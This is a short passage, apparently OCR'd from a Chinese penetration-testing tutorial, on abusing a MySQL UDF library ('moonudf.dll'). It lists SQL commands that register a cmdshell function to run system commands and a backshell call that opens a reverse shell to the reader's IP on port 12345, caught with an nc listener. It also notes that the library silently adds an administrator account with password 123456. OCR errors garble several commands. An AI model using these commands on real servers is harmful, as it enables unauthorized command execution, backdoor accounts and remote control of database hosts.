 ```shell
shut关机,注销，重启;
about说明与帮助函数;
默认添加管理员账号密码123456
默认反弹端口12345
不要随便删除刚创建的函数重新生效要mysq|重启
别人的udf请自行看别人的udf说明
常用命令
create function cmdshell returns string soname 'moonudf.dll‘
select cmdshell('命令")
select backshell("你的ip',12345)
nc -|-p 12345
```



##### 手工创建目录

自己动手

##### 导入文件

![](image60/60-11.png)
